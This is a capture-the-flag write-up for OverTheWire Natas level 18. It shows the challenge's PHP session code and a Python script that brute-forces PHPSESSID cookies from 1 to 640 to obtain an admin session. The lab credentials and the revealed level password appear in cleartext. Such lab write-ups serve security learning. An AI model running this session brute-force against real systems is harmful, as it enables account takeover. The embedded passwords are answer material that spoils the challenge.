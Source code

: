 🔐 **Level 18**

When accessing the challenge website, we are greeted with a **login form** quite similar to the previous ones:  
<img width="1844" height="467" alt="image" src="https://github.com/user-attachments/assets/88871cff-d460-48ba-a679-a1daa470ca30" />

Clicking on **View Source Code** shows the HTML of the page:  
<img width="1223" height="863" alt="image" src="https://github.com/user-attachments/assets/9ecb45c7-d71d-4b46-8fdd-da1546d7b364" />

This time, the web application does **not use MySQL** but instead validates using PHP sessions. Looking deeper into the PHP code, we find the following function:

```
php
function my_session_start() {
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
        if(!session_start()) {
            debug("Session start failed");
            return false;
        } else {
            debug("Session start ok");
            if(!array_key_exists("admin", $_SESSION)) {
                debug("Session was old: admin flag set");
                $_SESSION["admin"] = 0; // backwards compatible, secure
            }
            return true;
        }
    }
    return false;
}
```
🔎 This code reveals that the challenge is related to Cookies 🍪, specifically the PHPSESSID. If we can guess the correct session ID, we may become admin=1.

Checking the cookies of the website:
<img width="1919" height="538" alt="image" src="https://github.com/user-attachments/assets/f03b22ab-32c3-48df-80b1-33bef03867a6" />

Here, PHPSESSID is the key factor, and the session ID range seems to be from 1 to 640.

👉 To brute-force this, I wrote a Python script to try all possible PHPSESSID values:
```
import requests

url = "http://natas18.natas.labs.overthewire.org"
auth = ('natas18', '6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ')

for i in range(1, 641):
    cookies = {"PHPSESSID": str(i)}
    r = requests.get(url=url, auth=auth, cookies=cookies)
    if "You are an admin." in r.text:
        print(f"[+] Found admin PHPSESSID: {i}")
        print(r.text)
        break
    else:
        print("[-] Not correct yet")
```
💡 The script tests each session ID until it finds one with admin privileges.

And finally, the password was revealed:
<img width="1374" height="285" alt="image" src="https://github.com/user-attachments/assets/fe4a6237-7011-41d7-91cc-4fcb643466f3" />

✨ Password:
```
tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr
```
